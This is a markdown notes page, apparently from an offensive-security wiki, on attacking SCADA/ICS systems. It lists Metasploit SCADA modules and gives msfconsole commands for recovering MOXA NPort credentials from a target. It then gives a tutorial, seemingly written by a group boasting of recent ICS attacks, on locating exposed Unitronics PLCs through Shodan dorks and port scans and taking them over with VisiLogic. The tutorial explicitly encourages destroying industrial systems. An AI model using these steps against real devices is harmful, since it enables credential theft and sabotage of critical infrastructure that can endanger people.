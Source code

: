 # SCADA

## 01 - Metasploit

TODO: Go through each and every MSF module related to SCADA/ICS

```
auxiliary/analyze/modbus_zip

auxiliary/scanner/scada/modbus_banner_grabbing

auxiliary/scanner/scada/modbusclient

auxiliary/scanner/scada/modbus_findunitid

auxiliary/scanner/scada/modbusdetect

auxiliary/scanner/scada/pcomclient

auxiliary/admin/scada/modicon_stux_transfer

auxiliary/admin/scada/modicon_command
```

- Gather MOXA NPort credentials when authentication is on.

```
msf > use auxiliary/admin/scada/moxa_credentials_recovery

msf auxiliary(admin/scada/moxa_credentials_recovery) > options

msf auxiliary(admin/scada/moxa_credentials_recovery) > set function creds

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rport 4800

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rhosts <target_IP>

msf auxiliary(admin/scada/moxa_credentials_recovery) > run
```

## Unitronic PLCs

Unitronics devices, some of our recent ICS attacks had a new approach that shocked a few people and we got some questions on it was the targets where we showed off the HMI's for them.

Those are Unitronics Device this writeup will be a tutorial on how you can also access and breach these devices

Lets start with finding these devices there are 2 ways:

1. The typical shodan way, one dork you can use to find it (country:"ru" unitronics) or you can gather a bunch of CIDR and make a access control list using this https://www.countryipblocks.net/acl.php then scan the ranges for port 20256

Once thats done let's install the required program to remotely connect to the unitronics devices https://www.unitronicsplc.com/software-visilogic-for-programmable-controllers/

Now how to connect? You open visilogic and head to the connection tab and then press the last option (communication and os) from there set the connection type to TCP call and configure the project settings 

Now you see this scary panel? well don't be scared. For IP address that's self explanatory which is the target. The port is whatever the targets port is. Now for the PLC name. THIS STEP IS NECESSARY!

Be it shodan or your scans you will usually have the PLC name INSERT THAT THE EXACT WAY ITS WRITTEN IN YOUR RESULTS

After that press okay and once back on the communication and OS page, press get OPLC information if you see the information loaded its safe to close the tab out now go back to connection and press online test or simply press F9 on your keyboard.

Once that's done you can press the (play button) and you officially accessed the unitronics PLC

From here we do recommend research on using this software and how to properly achieve what you want and destroying industrial systems (Via videos or the same download link from above check out the manual, etc etc)

HACK THE PLANET!!

ANY QUESTIONS DROP THEM IN THE CHAT

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x01 - Passive Fingerprinting/0xA - Search Engines/Security Engines/Shodan/Use Cases/IoTs/Modbus/SCADA (ICS)|Shodan: SCADA]]